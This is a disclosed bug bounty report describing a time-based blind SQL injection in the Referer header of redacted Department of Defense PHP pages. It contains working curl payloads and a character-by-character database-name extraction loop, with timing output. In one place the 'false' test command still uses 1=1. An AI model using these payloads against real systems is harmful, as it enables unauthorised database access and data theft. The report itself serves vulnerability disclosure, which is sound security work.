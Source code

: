 # [████] SQL Injections on Referer Header exploitable via Time-Based method

## Report Details
- **Report ID**: 1018621
- **URL**: https://hackerone.com/reports/1018621
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-26T05:00:11.971Z
- **Disclosed**: 2020-11-02T21:40:40.797Z

## Reporter
- **Username**: polygon35
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
SQL Injections on Referer Header exploitable via Time-Based method
**Description:**
https://owasp.org/www-community/attacks/SQL_Injection
## Impact
https://owasp.org/www-community/attacks/SQL_Injection
## Step-by-step Reproduction Instructions

First, vulnerable points:
https://███████/███████/library.php?alert=
https://██████████/████████/Chart01.php?alert=
https://████████/████/Chart02.php?alert=
https://██████████/█████████/Chart03.php?alert=
https://████/█████Prod.php?alert=
https://██████████/█████systems.php?alert=
https://█████████/██████████db.php?alert=

(Don't miss the alert GET parameter...)

Okay, let's check the SQLi... lets use time and curl with a true condition (1=1), if 1=1, then, the server sleep 20 seconds else nothing (I just wrote false to make it explicit for you):

```time curl -s -H "Referer: '+(select*from(select(if(1=1,sleep(20),false)))a)+'" --url "https://████████/█████/Chart01.php?alert=" ```

Okay..then.. let's check the response: 

```Thank you - you may close this window
real	0m21,447s
user	0m0,029s
sys	0m0,000s```

The time is 21 seconds.. then.. let's update the if condition as false (1=2)

```time curl -s -H "Referer: '+(select*from(select(if(1=1,sleep(20),false)))a)+'" --url "https://████████/████████/Chart01.php?alert=" ```

Response:

```Thank you - you may close this window
real	0m1,806s
user	0m0,016s
sys	0m0,008s```

Hmm.. approx 2 seconds.. we have proof that's vuln.. let's try more..
I want the first character of the current database name..
let's go for it!:

```for i in {{a..z},{1..9}}; do echo "Testing $i char:"; time curl -s -H "Referer: '+(select*from(select(if(substring(database(),1,1)='$i',sleep(20),false)))a)+'" --url "https://████/██████/Chart01.php?alert="; done```

And there are only one-second answers from time except for the m!

```
Testing l char:
Thank you - you may close this window
real	0m1,321s
user	0m0,028s
sys	0m0,000s
Testing m char:
Thank you - you may close this window
real	0m21,299s
user	0m0,019s
sys	0m0,010s
Testing n char:
Thank you - you may close this window
real	0m1,331s
user	0m0,016s
sys	0m0,012s
```

Thanks for reading!

There is one of these injection points that is supposedly fixed at report #995122 (report disclosed, resolved.. but it's not..)

## Impact

https://owasp.org/www-community/attacks/SQL_Injection

## Attachments
No attachments
